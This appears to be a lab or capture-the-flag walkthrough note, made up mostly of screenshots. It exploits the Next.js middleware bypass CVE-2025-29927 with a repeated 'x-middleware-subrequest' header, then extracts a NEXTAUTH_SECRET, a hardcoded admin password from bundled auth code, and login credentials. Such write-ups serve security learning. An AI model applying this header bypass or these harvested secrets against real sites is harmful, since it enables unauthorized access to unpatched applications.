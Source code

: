 ![[IMG-20250823234029175.png]]

# [CVE-2025-29927](https://github.com/lirantal/vulnerable-nextjs-14-CVE-2025-29927)

![[IMG-20250824012840494.png]]

![[IMG-20250824012910247.png]]
USE:
```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```

![[IMG-20250824012954799.png]]

![[IMG-20250824013047596.png]]

![[IMG-20250824172304583.png]]

![[IMG-20250824171318691.png]]



![[IMG-20250824171346486.png]]

![[IMG-20250824172115997.png]]

```
NEXTAUTH_SECRET=82a464f1c3509a81d5c973c31a23c61a
```

![[IMG-20250825144128893.png]]

```
  "/api/auth/[...nextauth]": "pages/api/auth/[...nextauth].js",
```

![[IMG-20250825144743209.png]]

```js
let o = {
        session: { strategy: "jwt" },
        providers: [
          r.n(CredentialsProvider)()({
            name: "Credentials",
            credentials: {
              username: { label: "User", type: "username" },
              password: { label: "Password", type: "password" }
            },
            authorize: async e =>
              e?.username === "jeremy" &&
              e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes")
                ? { id: "1", name: "Jeremy" }
                : null
          })
        ],
        pages: { signIn: "/signin" },
        secret: process.env.NEXTAUTH_SECRET
      };
```

```
user: jeremy
password: MyNameIsJeremyAndILovePancakes
```

![[IMG-20250825144931061.png]]


![[IMG-20250825165336107.png]]
